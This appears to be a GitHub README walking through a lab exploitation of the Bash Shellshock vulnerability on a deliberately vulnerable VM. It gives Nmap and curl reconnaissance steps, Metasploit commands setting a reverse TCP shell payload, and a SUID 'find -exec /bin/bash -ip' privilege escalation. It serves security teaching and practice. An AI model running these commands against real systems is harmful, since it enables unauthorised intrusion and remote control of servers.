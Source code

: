 # Shellshock

This repository describes how to exploit the Bash Shellshock vulnerability. 

## Topics
- [Background](#background)
- [Use Case](#use-case)
- [Prerequisites](#prerequisites)
- [Usage](#usage)
  - [Scan the Network](#scan-the-network)
  - [Attack the Program](#attack-the-program)
  - [Create a Reverse Shell](#create-a-reverse-shell)
  - [Escalate Privileges](#escalate-privileges)
- [Resources](#resources)

## Background

Shellshock is a GNU Bash vulnerability that was discovered in 2014. The Shellshock vulnerabililty can affect numerous systems and attack vectors. GNU Bash through version 4.3 processes trailing strings after function definitions in environment variable values. This allows attackers to execute arbitrary code by using those external variables. The Shellshock vulnerability affects multiple vectors including the mod_cgi and mod_cgid methods of the Apache HTTP server that display dynamic content on web pages and applications. The Shellshock exploit can be launched either remotely or from a local machine.

## Use Case

The Shellshock vulnerability should only be exploited in a research environment. Running the Shellshock exploit enables researchers to become better acquainted with common vulnerabilities that should be remediated. Exploiting the Shellshock vulnerability in a research environment can help users become acquainted with penetration testing tools and methods.

## Prerequisites

Shellshock exploitation requires a vulnerable machine. A vulnerable Shellshock virtual machine called `shellshock_server.ova` can be [downloaded here](https://gtvault-my.sharepoint.com/:u:/g/personal/rheavican3_gatech_edu/EVihwYFaVDlChicYIgfXPHIBMLW_kOUUO8sTaJ7b8JLw2A?e=jIvhZ6). The password for `shellshock_server.ova` is `77t*#bT8sd`. The `shellshock_server.ova` virtual machine should be run in hypervisor that runs Open Virtualization Format files, such as VirtualBox.

An instance of Kali linux is required to exploit the vulnerable `shellshock_server.ova` virtual machine. The latest Kali image can be downloaded at the [official Kali download page](https://www.kali.org/get-kali/). The Kali virtual machine should be deployed on the same virtual network as `shellshock_server.ova`. 

## Usage

Perform the following tasks to exploit the Shellshock vulnerability in `shellshock_server.ova`:

### Scan the Network

The IP address of the vulnerable virtual machine must be identified to exploit the Shellshock vulnerability. Use `ifconfig -a` in a Kali terminal to identify the virtual network.

Scan the virtual network to identify the vulnerable server. Kali linux includes the Nmap open-source network discovery tool. Run the following command in a Kali terminal to scan the virtual network for hosts: Replace `$Subnet` with the network acquired through `ifconfig -a`.

```
nmap scan $Subnet
```

Run the following command in a Kali terminal to identify all open ports of the vulnerable host. Replace `$IPAddress` with the host IP address found in the previous Nmap scan:

```
nmap -p- $IPAddress
```

Use CURL to connect to any open HTTP ports identified by Nmap to determine if they are vulnerable to Shellshock. Replace `$IPAddress` and `$Port` with the IP address and open HTTP port identified by Nmap:

```
curl http:// <$IPAddress>:<$Port>/cgi-bin/shellshock.cgi
```

The server is vulnerable to Shellshock if the content of the URL is returned in the terminal. The returned URL will be used to attack the vulnerable CGI program.

### Attack the Program

Use the Metasploit framework included in Kali to exploit the vulnerable Shellshock server identifed using Nmap. Type `msfconsole` in a Kali terminal to launch the Metasploit framework.

Metasploit's primary components consist of exploit modules and exploit payloads. Metasploit modules are written to exploit specific vulnerabilities. Metasploit payloads are the packets that are sent within the exploit. 

Use the Apache mod_cgi Bash Environment Variable Code Injection Metasploit module to exploit the vulnerable server identified in Nmap. This module sets the `HTTP_User_Agent` environment variable to a malicious function definition to exploit the mod_cgi script on the Apache web server. Run the following commands in metasploit to run the module:

```
use exploit/multi/http/apache_mod_cgi_bash_env_exec
```

Specify the remote host to be exploited in the Metasploit module by running the following command. Replace `#IPAddress` with the IP address of the vulnerable server identified using Nmap.

```
set rhost #IPAddress
```

Specify the URL of the vulnerable target CGI program with the following command:

```
set targeturi /cgi-bin/shellshock.cgi
```

### Create a Reverse Shell

Now the payload needs to be used to exploit the vulnerable Shellshock server. Use `show payloads` to show the possible payloads for the current mod_cgi bash injnection module. Use the `linux/x86/shell/reverse_tcp` reverse shell exploit by running the following commands:

```
set payload linux/x86/shell/reverse_tcp
check
exploit
```

This will create a reverse shell session on the vulnerable server. 

### Escalate Privileges

The `shellshock_server.ova` virtual machine is vulnerable to privilege escalation in addition to its Shellshock vulnerability. Use `/bin/bash -i` to create an interactive Bash session on the reverse shell session. Then use the `whoami` command to identify the user account running the reverse shell session. `whoami` will show the user running the reverse shell as `www-data`.

Navigate to `/usr/bin` and run `ls -la` to identify any programs that use permissions for users other than `www-data`. `ls -la` will show that the `find` program has user privileges for the user `shellshock_server`. Launch a Bash session with the privileges of the `shellshock_server` user by running the following command:

```
find /usr/bin/ -name find -exec /bin/bash -ip \;
```

Use the `whoami` command to confirm that privileges for the Bash session have been escalated to the user `shellshock_server`

## Resources
- [Kali Download Page](https://www.kali.org/get-kali/)
- [Vulnerable Virtual Machine]((https://gtvault-my.sharepoint.com/:u:/g/personal/rheavican3_gatech_edu/EVihwYFaVDlChicYIgfXPHIBMLW_kOUUO8sTaJ7b8JLw2A?e=jIvhZ6))
- [Shellshock CVE](https://nvd.nist.gov/vuln/detail/cve-2014-6271)
- [Shellshock Exploitation](https://www.infosecarticles.com/exploiting-shellshock-vulnerability/)
- [Metasploit Shellshock Exploitation](https://null-byte.wonderhowto.com/how-to/exploit-shellshock-web-server-using-metasploit-0186084/)
- [Metasploit Exploit for Apache mod_cgi Bash Environment Variable Code Injection](https://www.rapid7.com/db/modules/exploit/multi/http/apache_mod_cgi_bash_env_exec/)
- [Shell Spawning](https://rcenetsec.com/shell-spawning/)
- [Privilege Escalation](https://tbhaxor.com/exploiting-suid-binaries-to-get-root-user-shell/)
